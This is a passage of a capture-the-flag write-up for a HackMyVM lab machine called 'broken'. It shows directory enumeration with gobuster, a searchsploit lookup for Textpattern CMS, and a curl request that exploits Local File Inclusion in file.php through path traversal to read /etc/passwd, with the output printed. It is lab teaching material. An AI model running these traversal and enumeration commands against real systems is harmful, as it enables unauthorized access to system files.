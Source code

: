 I then used `gobuster` to enumerate directories within the `/textpattern` path.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/broken]
└─$ gobuster dir -u http://broken/textpattern/ -w ../../wordlists/common.txt
# ... (truncated output) ...
/.htaccess            (Status: 200) [Size: 875]
/files                (Status: 301) [Size: 185] [--> http://broken/textpattern/files/]
/images               (Status: 301) [Size: 185] [--> http://broken/textpattern/images/]
/index.php            (Status: 200) [Size: 11603]
/rpc                  (Status: 301) [Size: 185] [--> http://broken/textpattern/rpc/]
/textpattern          (Status: 301) [Size: 185] [--> http://broken/textpattern/textpattern/]
/themes               (Status: 301) [Size: 185] [--> http://broken/textpattern/themes/]
# ... (truncated output) ...
```

This revealed several interesting directories, including `/textpattern/textpattern/` which likely contained the admin panel.

I also performed a `searchsploit` query for "textpattern" to find known vulnerabilities.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/broken]
└─$ searchsploit textpattern
# ... (truncated output) ...
TextPattern 1.19 - 'publish.php' Remote File Inclusion                                                                               | php/webapps/2646.txt
Textpattern 4.8.8 - Remote Code Execution (RCE) (Authenticated)                                                                      | php/webapps/51176.txt
# ... (many other results) ...
```

This showed several potential vulnerabilities, including Remote File Inclusion (RFI) and Authenticated Remote Code Execution (RCE).

### 3. Initial Access via LFI and Log Poisoning

After many attempts, It shows up that the `textpattern CMS` was just a rabbit hole. I noticed a `file.php` in the root directory . I suspected it might be vulnerable to Local File Inclusion (LFI).

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/broken]
└─$ gobuster dir -u http://broken/ -w ../../wordlists/common.txt -x php,txt
# ... (truncated output) ...
/file.php             (Status: 200) [Size: 0]
# ... (truncated output) ...
```

I tested `file.php` for LFI by attempting to read `/etc/passwd`.

```shellscript
┌──(zengla㉿kali)-[~/Desktop/hackmyvm/broken]
└─$ curl http://broken/file.php?file=../../../../etc/passwd
root:x:0:0:root:/root:/bin/bash
# ... (content of /etc/passwd) ...
heart:x:1000:1000:heart,,,:/home/heart:/bin/bash
# ... (truncated output) ...
```
